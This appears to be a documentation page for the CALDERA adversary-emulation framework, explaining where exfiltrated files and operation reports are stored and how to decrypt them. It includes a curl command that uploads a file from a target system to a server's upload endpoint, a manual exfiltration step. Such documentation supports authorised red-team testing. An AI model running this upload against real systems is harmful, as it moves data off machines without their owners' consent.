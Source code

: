 Exfiltration
====================

After completing an operation a user may want to review the data retreived from the target system. This data is automatically stored on the CALDERA server in a directory specified in [/conf/default.yml](Server-configuration.html#the-existing-default-yml).

## Accessing Exfiltrated Files

Some abilities will return files from the agent to the CALDERA server. This can also be done manually with 
```yaml
curl -X POST -F 'data=@/file/path/' http://server_ip:8888/file/upload
```
Note: localhost could be rejected in place of the server IP. In this case you will get error 7. You should type out the full IP.
These files are sent from the agent to server_ip/file/upload at which point the server places these files inside the directory specified by [/conf/default.yml to key "exfil_dir"](Server-configuration.html#the-existing-default-yml). By default it is set to /tmp


## Accessing Operations Reports

After the server is shut down the reports from operations are placed inside the directory specified by the [/conf/default.yml to key "reports_dir"](Server-configuration.html#the-existing-default-yml). By default it is also set to /tmp


## Unencrypting the files
The reports and exfiltrated files are encrypted on the server. To view the file contents the user will have to decrypt the file using /app/utility/file_decryptor.py . This can be performed with:

```yaml
python /app/utility/file_decryptor.py --config /conf/default.yml _input file path_
```

The output file will already have the _decrypted tag appended to the end of the file name once the decrypted file is created by the python script.